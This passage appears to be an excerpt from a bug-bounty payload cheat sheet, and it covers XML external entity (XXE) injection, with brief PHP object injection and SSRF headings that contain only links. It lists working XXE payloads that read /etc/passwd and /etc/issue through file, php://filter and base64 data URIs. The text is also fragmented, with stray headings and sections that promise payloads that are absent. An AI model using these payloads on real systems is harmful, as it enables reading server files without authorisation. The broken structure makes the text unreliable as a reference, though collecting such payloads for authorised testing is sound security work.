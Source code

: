 ```
We could also combine this with PHP Object Injection (More on that below) to have a payload like this 

<!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=/etc/issue' >]>

Testing the Waters

<?xml version="1.0" encoding="utf-8"?>

Testing the Waters #2


<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE test [
<!ENTITY % m0chan SYSTEM "file:///etc/passwd">
%m0chan;
]>

<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
<!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>
&xxe;
</foo>


Base64

<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>


This is the basis, if you want the proper example go and buy the Bug Bounty Playbook.pdf :) Its my favourite book for bug bounty.
```

**PHP Object Injection**

```
#https://nitesculucian.github.io/2018/10/05/php-object-injection-cheat-sheet/


```

**Server-Side-Request-Forgery**

```
#https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery
I am not going to explain SSRF here as its fairly straight forward and a lot of resources exist, I will drop a few payloads I grabbed off twitter recently though. 

For other payloads check out Payload All The Things
```
